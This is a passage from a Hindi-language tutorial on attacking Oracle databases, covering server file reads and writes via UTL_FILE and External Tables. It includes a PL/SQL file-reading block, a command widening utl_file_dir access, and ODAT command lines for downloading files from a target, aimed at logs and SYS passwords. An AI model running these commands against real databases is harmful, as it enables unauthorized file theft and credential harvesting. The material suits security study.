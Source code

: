 ‘ODAT.py’ उपयोगिता भी इस हमले को लागू कर सकती है। हालांकि, इसके लिए ‘CREATE ANY DIRECTORY’ विशेषाधिकार की आवश्यकता होती है, जो कि डिफ़ॉल्ट रूप से केवल DBA भूमिका को ही दी जाती है, क्योंकि यह किसी भी और केवल “आपकी” निर्देशिका से फ़ाइल को निष्पादित करने का प्रयास करता है।

# फ़ाइलों को पढ़ना/लिखना

अब, चलिए फ़ाइलों को पढ़ने और लिखने के कार्य की ओर बढ़ते हैं। यदि आपको केवल सर्वर पर एक फ़ाइल पढ़ने या लिखने की आवश्यकता है, तो आप इसे किसी भी Java प्रक्रियाओं के बिना कर सकते हैं, जो हालांकि, इस तरह के कार्यों को संभाल सकती हैं। चलिए ‘UTL_FILE’ पैकेज की ओर देखते हैं जिसमें फ़ाइल सिस्टम के साथ काम करने के लिए आवश्यक कार्यक्षमता है। अच्छी खबर यह है कि, डिफ़ॉल्ट रूप से, इसे ‘PUBLIC’ भूमिका वाले सभी उपयोगकर्ताओं द्वारा पहुँचा जा सकता है। बुरी खबर यह है कि, डिफ़ॉल्ट रूप से, इस प्रक्रिया को पूरे फ़ाइल सिस्टम तक पहुँच नहीं है, लेकिन केवल एक प्रशासक द्वारा पूर्व-निर्धारित निर्देशिका तक ही है। हालांकि, यह असामान्य नहीं है कि एक निर्देशिका पैरामीटर को ‘*’ के रूप में निर्दिष्ट किया गया हो, जिसका शाब्दिक अर्थ है “सब कुछ तक पहुँच।” आप निम्नलिखित कमांड का उपयोग करके इसे पता लगा सकते हैं:
```text
select name, value from v$parameter where name = 'utl_file_dir';
With appropriate rights, you can expand the access by using the following query:
alter system set utl_file_dir='*' scope =spfile;
```
मैंने पाया कि 'UTL_FILE' पैकेज का उपयोग करने की सबसे संक्षिप्त प्रक्रिया अलेक्जेंडर पोल्याकोव द्वारा प्रस्तावित की गई है:
```text
SET SERVEROUTPUT ON
declare
f utl_file.file_type;
sBuffer Varchar(8000);
begin
f:=UTL_FILE.FOPEN (''C:/’,'boot.ini','r');
loop
UTL_FILE.GET_LINE (f,sBuffer);
DBMS_OUTPUT.PUT_LINE(sBuffer);
end loop;
EXCEPTION
when no_data_found then
UTL_FILE.FCLOSE(f);
end;
/

```
यदि आपको लिखने की क्षमता के साथ अधिक कार्यक्षमता की आवश्यकता है, तो मैं 'raptor_oraexec.sql' नामक स्क्रिप्ट को गूगल करने की सलाह देता हूँ। और परंपरा के अनुसार, यहाँ 'ODAT' उपकरण का उपयोग करने का एक विकल्प है, जो हमेशा की तरह, सबसे संक्षिप्त है:
```text
./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt
```
'UTL\_FILE' पैकेज भी बहुत रोचक है क्योंकि यदि आप भाग्यशाली हैं, तो आप लॉग्स, कॉन्फ़िगरेशन फाइल्स तक पहुँच सकते हैं और 'SYS' जैसे विशेषाधिकार प्राप्त खातों से पासवर्ड प्राप्त कर सकते हैं।

दूसरी विधि जिसका मैं उल्लेख करना चाहूंगा, वह है फिर से 'External Tables' का उपयोग करना। याद रखें कि, 'External Tables' का उपयोग करते समय, डेटाबेस बाहरी टेबल्स से डेटा को रीड मोड में एक्सेस कर सकता है। एक हैकर के लिए, यह सर्वर से फाइल्स डाउनलोड करने का एक और अवसर है, लेकिन इस विधि के लिए 'CREATE ANY DIRECTORY' विशेषाधिकार की आवश्यकता होती है। मैं तुरंत 'ODAT' का उपयोग करने का सुझाव देता हूँ, क्योंकि यह स्थिर और तेज़ है:
```text
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/test" "my4.txt" "my"
```
# विशेषाधिकार बढ़ाना
